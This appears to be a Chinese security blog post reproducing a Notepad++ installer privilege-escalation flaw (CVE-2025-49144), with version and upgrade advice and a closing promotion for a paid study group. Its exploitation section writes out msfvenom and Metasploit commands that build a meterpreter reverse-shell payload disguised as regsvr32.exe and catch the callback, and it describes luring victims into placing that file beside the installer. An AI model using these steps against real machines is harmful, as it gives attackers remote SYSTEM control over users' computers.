 #  Notepad++提权漏洞POC及一键部署环境（CVE-2025-49144）  
原创 a1batr0ss  天翁安全   2025-06-30 01:13  
  
**免责声明：**  
本公众号所发布的全部内容，包括但不限于技术文章、POC脚本、漏洞利用工具及相关测试环境，均仅限于合法的网络安全学习、研究和教学用途。所有人在使用上述内容时，应严格遵守中华人民共和国相关法律法规以及道德伦理要求。未经明确的官方书面授权，严禁将公众号内的任何内容用于未经授权的渗透测试、漏洞利用或攻击行为。 所有人仅可在自己合法拥有或管理的系统环境中进行本地漏洞复现与安全测试，或用于具有明确授权的合法渗透测试项目。所有人不得以任何形式利用公众号内提供的内容从事非法、侵权或其他不当活动。 如因违反上述规定或不当使用本公众号提供的任何内容，造成的一切法律责任、经济损失、纠纷及其他任何形式的不利后果，均由相关成员自行承担，与本公众号无任何关联。  
## 漏洞介绍  
  
Notepad++ 是一款功能强大的开源文本编辑器，适用于 Windows 平台，广泛用于程序开发和文本处理。它支持多种编程语言的语法高亮和代码折叠，内置插件系统可扩展功能，如正则查找替换、自动补全、FTP 编辑等。相比系统自带的记事本，Notepad++ 运行轻便、界面简洁，是程序员、运维人员和普通用户常用的编辑工具之一。  
  
Notepad++ 是一款免费开源的源代码编辑器。在 8.8.1 及之前的版本中，Notepad++ v8.8.1 安装程序存在一个权限提升漏洞，攻击者可以利用不安全的可执行文件搜索路径，使非特权用户获取 SYSTEM 级权限。攻击者可能通过社会工程学或点击劫持等手段，诱骗用户将合法安装程序与恶意可执行文件下载到同一目录（通常是“下载”文件夹，这被称为易受攻击目录）。当用户运行安装程序时，恶意代码将自动以 SYSTEM 权限执行。该问题已修复，并将在 8.8.2 版本中发布。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkjWdibFvGxAWSb1n9FgwTJKNMrp6vFDAWiccoEaumwD4wwtOKB0KkFlZA/640?wx_fmt=png&from=appmsg "")  
## 漏洞版本  
- Notepad++ < 8.8.2  
  
## 漏洞利用  
  
首先使用msfvenom生成shellcode，其中192.168.1.119是本地监听IP，8888是本地监听端口  
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.119 LPORT=8888 -f c > shellcode.txt
```  
  
接着将shellcode写入到regsvr32_loader.c中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk9NgEx6gBIJGY2D5Y0WEIqvogAVRQtXzmdluQtTib7yodOaY8F1osHrQ/640?wx_fmt=png&from=appmsg "")  
  
然后执行以下命令生成一个regsvr32.exe  
```
x86_64-w64-mingw32-gcc regsvr32_loader.c -o regsvr32.exe -mwindows
```  
  
再之后开启一个meterpreter监听  
```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.119
set LPORT 8888
run
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkqiajAmiaoDH3gDqdaajWrburZUIDpiawq6jeJTpoBibCRRuPH7hBrkjOZA/640?wx_fmt=png&from=appmsg "")  
  
最后我们在目标受害机器上，把Notepad++安装包和regsvr32.exe放在同一个目录下，点击进行安装  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk6gjk06fYbrxCo088lJiahywOufXyzKIlFssFWUNuDuJyjP3IEXMQA2Q/640?wx_fmt=png&from=appmsg "")  
  
安装会卡在上图的位置，此时查看meterpreter监听，发现已经成功获取了目标的管理员权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkjPGR0jw6L9SP7ncxVnOCHLRJia7hkGbibMMRzLZdxgCmoXZa3HvriawsQ/640?wx_fmt=png&from=appmsg "")  
  
原作者对此漏洞的利用方法解释如下：一般用户下载文件时，都会下载到同一个下载文件夹，此时就可以利用社会工程学等手段在用户下载Notepad++安装包时同时下载regsvr32.exe，当这两个文件在同一个目录下时，用户安装Notepad++时即可触发漏洞。  
  
在我看来这个条件还是挺苛刻的，相比利用过程，更难的还是如何诱导用户把Notepad++安装包和regsvr32.exe放到一个文件夹下。  
## 漏洞修复  
  
**修复需要将版本升级**  
- Notepad++ >= 8.8.2  
  
## 知识星球  
  
**漏洞利用POC和批量检查脚本**  
可在知识星球内自行领取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIknUTKdxLc8FXE8ejbwL7cyp4dSxibvgjBA6Fo1ofENVeMH3csbGMEcKQ/640?wx_fmt=png&from=appmsg "")  
> 星球不定期更新市面上最新的热点漏洞及复现环境，欢迎加入交流和学习  
  
  
亮点一、**市面热点漏洞详细分析**  
，与**deepseek本地部署**  
息息相关的：Ollama任意文件读取漏洞（CVE-2024-37032）详细分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkVmWj8z9B7prhiauSHK5Ejuic8xoVUPnqdmDWLsbNbpZrAHXWzjticmzVA/640?wx_fmt=png&from=appmsg "")  
  
亮点二、**近日最新披露的明星**  
漏洞POC：Roundcube Mail 后台代码执行漏洞复现（CVE-2025-49113）及POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkQyepCAuqhH39vw5Dm000efoRpeLiamF9ZJDXbwicLqsPCF1konlZJRug/640?wx_fmt=png&from=appmsg "")  
  
亮点三、**框架漏洞专题-若依：**  
  
若依某漏洞分析：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk7VVicKFxbfhxEj8VnJZqiaWEJg1runnmtXvJkrXHJibjW4tnDIBaKSiaqg/640?wx_fmt=png&from=appmsg "")  
  
以及帮助师傅们轻松搭建若依环境的docker的tar包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk0UZjZzOyr0Y3Im8YYOliaEbhwEKRKHUToBRtr9VWNa60G2pSb2kOIZQ/640?wx_fmt=png&from=appmsg "")  
  
亮点四、**实战渗透测试技巧分享&讨论**  
：记一次信息泄漏到数据库接管的渗透测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk6iaFczgiaJ8ic2tkTX7YGKaag2KJibuurgusENicBmGbCYgkh44ickZPtDqA/640?wx_fmt=png&from=appmsg "")  
  
某次若依系统渗透测试带来的思考与讨论  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkKz0ECeObHACOialHZNCdjiccsEhorCXD7Zh7uU78Z0hUs6aeATCrPPtg/640?wx_fmt=png&from=appmsg "")  
  
亮点五、一些比较新奇有趣的漏洞分享：Windows**拖拽图标**  
而触发的漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkiaXqAE8r1niaOv0cVpBP4vczrFBAZJdnFGLujOxGd9mP36t1GwkkicYvw/640?wx_fmt=png&from=appmsg "")  
  
知识星球加入方式如下，欢迎师傅们加入进行学习和讨论！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkvw4a00NBpMS5ex8OFBD3dc4Mf9BfPiagT2g214kdKcs3YByq9pGpKiaw/640?wx_fmt=png&from=appmsg "")  
  
